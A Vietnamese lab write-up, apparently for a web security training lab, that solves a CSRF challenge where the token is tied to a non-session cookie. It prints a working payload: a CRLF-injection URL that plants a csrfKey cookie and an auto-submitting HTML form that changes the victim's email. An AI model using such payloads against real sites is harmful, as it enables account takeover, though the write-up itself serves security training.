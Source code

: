 ![img](https://imgur.com/5RcehAU.png)

Thử thay đổi csrfKey: 

![img](https://imgur.com/jtoUupI.png)

Như vậy thì việc thay đổi csrf token và csrfKey sẽ không giải quyết được. Nhưng nếu thay đổi cả csrfKey session thì sao?

Truy cập account carlos và intercept request change email: 

![img](https://imgur.com/qj4piuy.png)

Thử thay đổi csfrKey và csrf thành csfrKey và csrf của wiener: 

csrf token wiener: Tsf3mMGOHwmECdoiG9cJTzUrm1dAzExA

csrfKey session wiener: gmNjMH9BoPTTo9eGeOLiiduODNB0iUUf

![img](https://imgur.com/OtMqJCi.png)

--> Thành công đổi email của carlos với csrfKey cookie trong session của wiener và csrf token param của wiener.

Như vậy việc cần làm là tạo ra payload html có thể inject csrfKey và csrf token param.

Để inject csrfKey, cần tạo 1 URL có dạng như sau: 
*/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None*

Thay YOUR-KEY thành csrfKey của wiener: 

*/?search=test%0d%0aSet-Cookie:%20csrfKey=gmNjMH9BoPTTo9eGeOLiiduODNB0iUUf%3b%20SameSite=None*

Và csrf token param của wiener là: Tsf3mMGOHwmECdoiG9cJTzUrm1dAzExA

Như vậy payload HTML sẽ có dạng: 

    <form action="https://0a7500ce03bd6075807fb7ca00170080.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="Test@Test.com" />
      <input type="hidden" name="csrf" value="Tsf3mMGOHwmECdoiG9cJTzUrm1dAzExA" />
      <input type="submit" value="Submit request" />
    </form>

    <img src="https://0a7500ce03bd6075807fb7ca00170080.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=gmNjMH9BoPTTo9eGeOLiiduODNB0iUUf%3b%20SameSite=None" onerror="document.forms[0].submit()">

![img](https://imgur.com/Kf4bq86.png)

CLick Deliver exploit to victim.

Solved the lab!

![img](https://imgur.com/EwOLUYs.png)

# CSRF token is simply duplicated in a cookie
